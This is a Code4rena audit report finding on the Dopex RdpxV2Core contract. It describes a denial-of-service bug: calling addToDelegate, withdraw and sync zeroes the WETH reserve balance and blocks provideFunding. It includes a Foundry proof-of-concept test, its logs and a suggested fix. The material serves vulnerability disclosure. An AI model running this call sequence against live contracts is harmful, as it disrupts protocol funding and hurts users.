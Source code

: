 # [Dopex Report](https://code4rena.com/reports/2023-08-dopex)

## Findings by Dimulski
| Severity | Title | 
|:--:|:--:|
| [H-01](#H-01) | DoS sending WETH from RdpxV2Core to PerpetualAtlanticVault via provideFunding() | 

## <a id='H-01'></a>[H-01] DoS sending WETH from RdpxV2Core to PerpetualAtlanticVault via provideFunding()
## Lines of code
https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/core/RdpxV2Core.sol#L790-L808

## Vulnerability details
## Imapct
The amount of reserveAsset[reservesIndex["WETH"]].tokenBalance can be set to 0, by first calling addToDelegate() with the current value of reserveAsset[reservesIndex["WETH"]].tokenBalance, then calling withdraw() to withdraw all the deposited weth and then calling sync(). When the admin of RdpxV2Core decides to call provideFunding() in order to send the funding amount of WETH to the PerpetualAtlanticVault contract, the function will revert, because reserveAsset[reservesIndex["WETH"]].tokenBalance can be set to 0, and substracting the fundingAmount (whatever it is, if > 0) is not possible. The provideFunding() function is expected to be called at the end of every epoch as it can be called only once. The attacker can execute the above described flow and set reserveAsset[reservesIndex["WETH"]].tokenBalance to 0 or close to 0 for example 6 days after the epoch has started (if 1 epoch is 7 days), or frontrun the provideFunding() function call. There is an emergencyWithdraw() function so the weth can eventually be withdrawn from the contract, but this is not the expected behavior. The attack will cost only the gas required for the three transactions, and as the intended chain for the Dopex protocol to be deployed is Arbitrum, gas will be pretty cheap.

## Proof of Concept
I have added the below function in the RdpxV2Core contract in order to easily read the value of reserveAsset[reservesIndex["WETH"]].tokenBalance

```solidity
function returnsReserveAsset() public view returns(uint256 result){
      result = reserveAsset[2].tokenBalance;
    }
```

The below function can be added to the Integration.t.sol file in the rdpxV2-core test folder

```solidity
 function test_WrongCalcualtionDelegate() public {
    vaultLp.deposit(100 * 1e18, address(this));
    weth.mint(address(3), 12e18);
    rdpx.mint(address(3), 122e18);
    (uint256 rdpxRequired, uint256 wethRequired) = rdpxV2Core.calculateBondCost(12e18,0);


    vm.startPrank(address(3));
    weth.approve(address(rdpxV2Core), type(uint256).max);
    rdpx.approve(address(rdpxV2Core), type(uint256).max);
    uint256 receiptTokens1 = rdpxV2Core.bond(10 * 1e18, 0, address(1));
    console.log("Here is the reserveAssets[Weth] balance after a user has bonded: ", rdpxV2Core.returnsReserveAsset());
    console.log("rdpxV2Core real Weth balance after bonding: ", weth.balanceOf(address(rdpxV2Core)));
    rdpxV2Core.addToDelegate(2.45 *1e18, 1e8);
    console.log("rdpxV2Core real Weth balance after bondign and delegation of weth: ", weth.balanceOf(address(rdpxV2Core)));
    rdpxV2Core.withdraw(0);
    console.log("rdpxV2Core real Weth balance after bondign, delegation of weth and withdrawing of the delegated weth: ", weth.balanceOf(address(rdpxV2Core)));
    rdpxV2Core.sync();
    console.log("Here is the reserveAssets[Weth] balance after delegeting weth, syncing and then withdrawing the delegated weth: ", rdpxV2Core.returnsReserveAsset());
    console.log("rdpxV2Core real Weth balance after bondign, delegation of weth, withdrawing of weth,  and calling sync: ", weth.balanceOf(address(rdpxV2Core)));
    vm.stopPrank();
  }
  }
```

Those are the logs:
```solidity
 Here is the reserveAssets[Weth] balance after a user has bonded:  2450000000000000000
  rdpxV2Core real Weth balance after bonding:  2450000000000000000
  rdpxV2Core real Weth balance after bondign and delegation of weth:  4900000000000000000
  Here is the reserveAssets[Weth] balance after delegeting weth, syncing and then withdrawing the delegated weth:  0
  rdpxV2Core real Weth balance after bondign, delegation of weth, withdrawing of weth,  and calling sync:  2450000000000000000
```
## Tools Used
Manual Review

## Recommended Mitigation Steps
In the withdraw() function substract the withdrawn amount from totalWethDelegated

## Assessed type
Dos
